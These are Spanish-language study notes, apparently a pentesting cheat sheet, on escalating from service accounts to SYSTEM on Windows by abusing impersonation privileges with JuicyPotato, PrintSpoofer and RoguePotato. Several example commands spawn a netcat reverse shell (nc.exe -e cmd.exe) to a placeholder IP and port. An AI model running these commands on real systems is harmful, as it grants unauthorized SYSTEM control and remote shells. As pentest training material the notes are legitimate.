 
## 🔑 Requisitos clave
- **SeImpersonatePrivilege**: permite suplantar el token de otro proceso.
- **SeAssignPrimaryTokenPrivilege**: permite asignar un token primario a un proceso.
- Estas capacidades se pueden usar para escalar de un servicio (como MSSQL o IIS) a **NT AUTHORITY\SYSTEM**.

## 🧪 Métodos de escalada utilizados

### 1. JuicyPotato

- **Funciona en**: versiones anteriores a Windows 10 1809 / Server 2019.
- **Requiere**: SeImpersonate o SeAssignPrimaryToken habilitado.
- **Técnica**: Abusa de DCOM/NTLM reflection para ejecutar comandos como SYSTEM.
- **Comando típico**:
```cmd	
JuicyPotato.exe -l <puerto> -p <programa> -a "<argumentos>" -t * 
```

Ejemplo:
```cmd
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c nc.exe IP PUERTO -e cmd.exe" -t *
```
NOTA: Usa un  clsid por defecto, si no funciona usar uno buscando aquí hay una lista por sistema: https://ohpe.it/juicy-potato/CLSID/
Ejemplo:
```powershell
./juicy.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c nc.exe IP PUERTO -e cmd.exe" -t * -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
```
### 2. PrintSpoofer (10 1809+ y Server 2019+)

- **Funciona en**: Windows 10 1809+ y Server 2019+ (donde JuicyPotato ya no sirve).
    
- **Requiere**: SeImpersonatePrivilege habilitado.
    
- **Técnica**: Abusa de privilegios de impresión y llamadas a `CreateProcessAsUser()` para obtener SYSTEM.
    
- **Comando típico**:

```cmd
PrintSpoofer.exe -c "nc.exe IP PUERTO -e cmd"
```

### 3. RoguePotato (mencionado brevemente)

- **Funciona en**: versiones modernas donde JuicyPotato no funciona.
    
- **Similar a**: JuicyPotato, pero con mejoras en la forma en que obtiene el token SYSTEM usando pipes anónimos y Named Pipe Impersonation.

## 📌 Consideraciones

- Estas técnicas suelen explotarse tras comprometer una aplicación que corre con permisos intermedios (como MSSQL o IIS).
    
- Siempre verificar los privilegios con `whoami /priv` antes de intentar la escalada.
    
- Elegir la herramienta correcta según la **versión del sistema operativo**.